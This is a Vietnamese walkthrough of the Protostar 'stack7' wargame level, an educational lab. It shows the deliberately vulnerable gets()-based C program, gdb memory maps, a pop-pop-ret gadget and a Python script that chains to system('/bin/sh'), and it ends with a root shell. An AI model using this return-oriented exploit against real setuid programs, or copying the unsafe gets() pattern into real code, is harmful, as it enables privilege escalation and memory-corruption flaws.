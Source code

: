 # STACK SEVEN

## About

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SEVEN` giới thiệu về cách chúng ta sử dụng segment .text khi mà địa chỉ bị giới hạn trả về không chỉ còn là stack. Chúng ta sẽ tìm hiểu về các ROPgadget và kỹ thuật khai thác ROP (Return-oriented programming).

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }
```

if((ret & 0xb0000000) == 0xb0000000)

```
Giả sử ret = 0xb7777777
	     ret & 0xb0000000

	     0xb7777777 
     & 0xb0000000
	     __________
       0xb0000000 <-- luôn bằng 0xb0000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP (tất cả bị đưa về `0xb0000000`) nếu như địa chỉ đó nằm trong khoảng từ `0xb0000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack7
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) start
Temporary breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
Starting program: /opt/protostar/bin/stack7

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 2088
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoạn địa chỉ từ `0xb0000000` đến `0xbfffffff` là vùng bị giới hạn - gần như tất cả các phân vùng của chương trình trừ những gì trong đoạn từ `0x8048000` đến `0x804a000` -> không thể sử dụng trực tiếp ret2libc như `STACK SIX` mà ta sẽ trả về một địa chỉ nào đó trên phân vùng không bị giới hạn rồi mới quay lại ret2libc.

Ở đây mình chọn `.text` với địa chỉ của `gadget` `pop pop ret`.

system(), exit(), "/bin/sh".

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Nó chạy cùng 1 thư viện với `STACK SIX` @@.

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Gadget `pop pop ret`.

`root@protostar:/opt/protostar/bin# objdump -d stack7 | grep -a2 pop`

Có 3 vị trí thỏa mãn 0x80485f7, 0x80485c7, 0x8048492. Mình chọn cái này:

```
 80485c0:       72 de                   jb     80485a0 <__libc_csu_init+0x30>
 80485c2:       83 c4 1c                add    $0x1c,%esp
 80485c5:       5b                      pop    %ebx
 80485c6:       5e                      pop    %esi
 80485c7:       5f                      pop    %edi     * Start gadget for me.
 80485c8:       5d                      pop    %ebp
 80485c9:       c3                      ret
```

Payload của chúng ta bây giờ là:

`payload = "A" * 80 + addr_gadget + + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 80
ppr = struct.pack("I", 0x080485c7)
pop1 = "AAAA"
pop2 = "BBBB"
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + ppr + pop1 + pop2 + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin# (python exp.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAǅAAAAAAAAAAAAǅAAAABBBB`췿c
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	final1	final2	format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7
```


## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://bufferoverflows.net/ret2libc-exploitation-example/>

<https://en.wikipedia.org/wiki/Return-oriented_programming>


